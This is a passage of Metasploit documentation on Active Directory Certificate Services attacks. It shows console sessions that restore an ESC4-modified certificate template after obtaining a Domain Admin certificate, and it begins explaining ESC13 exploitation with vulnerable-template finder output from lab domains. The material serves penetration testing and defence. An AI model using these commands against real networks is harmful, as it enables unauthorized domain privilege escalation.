 Finally, we switch back to the `ad_cs_cert_template` module to restore the original configuration. We do this by
setting the local template data option `TEMPLATE_FILE` to the JSON file that was created by the previous run.

```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > previous 
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set TEMPLATE_FILE /home/smcintyre/.msf4/loot/20230505083802_default_172.30.239.85_windows.ad.cs.te_593597.json
TEMPLATE_FILE => /home/smcintyre/.msf4/loot/20230505083802_default_172.30.239.85_windows.ad.cs.te_593597.json
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > run
[*] Running module against 172.30.239.85

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[*] 172.30.239.85:389 Getting root DSE
[+] 172.30.239.85:389 Discovered base DN: DC=daforest,DC=com
[+] Read certificate template data for: CN=ESC4-Test,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=daforest,DC=com
[*] Certificate template data written to: /home/smcintyre/.msf4/loot/20230505083942_default_172.30.239.85_windows.ad.cs.te_000095.json
[+] The operation completed successfully!
[*] Auxiliary module execution completed
msf6 auxiliary(admin/ldap/ad_cs_cert_template) >
```

At this point the certificate template's configuration has been restored and the operator has a certificate that can be
used to authenticate to Active Directory as the Domain Admin.

# Exploiting ESC13
To exploit ESC13, we need to target a certificate that has an issuance policy linked to a universal group in Active
Directory. Unlike some of the other ESC techniques, successfully exploiting ESC13 isn't necessarily guaranteed to yield
administrative privileges, rather the privileges that are gained are those of the group which is linked to by OID in the
certificate template's issuance policy. The `auxiliary/gather/ldap_esc_vulnerable_cert_finder` module is capable of
identifying certificates that meet the necessary criteria. When one is found, the module will include the group whose
permissions will be included in the resulting Kerberos ticket in the notes section. In the following example, the
ESC13-Test template is vulenerable to ESC13 and will yield a ticket including the ESC13-Group permissions.

```
msf6 auxiliary(gather/ldap_esc_vulnerable_cert_finder) > run
...
[*] Template: ESC13-Test
[*]    Distinguished Name: CN=ESC13-Test,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=collalabs1,DC=local
[*]    Vulnerable to: ESC13
[*]    Notes: ESC13 groups: ESC13-Group
[*]    Certificate Template Enrollment SIDs:
[*]       * S-1-5-21-3474343397-3755413101-2031708755-512 (Domain Admins)
[*]       * S-1-5-21-3474343397-3755413101-2031708755-513 (Domain Users)
[*]       * S-1-5-21-3474343397-3755413101-2031708755-519 (Enterprise Admins)
[*]    Issuing CAs:
[*]       * collalabs1-SRV-ADDS01-CA
[*]          Server: SRV-ADDS01.collalabs1.local
[*]          Enrollment SIDs:
[*]             * S-1-5-11 (Authenticated Users)
```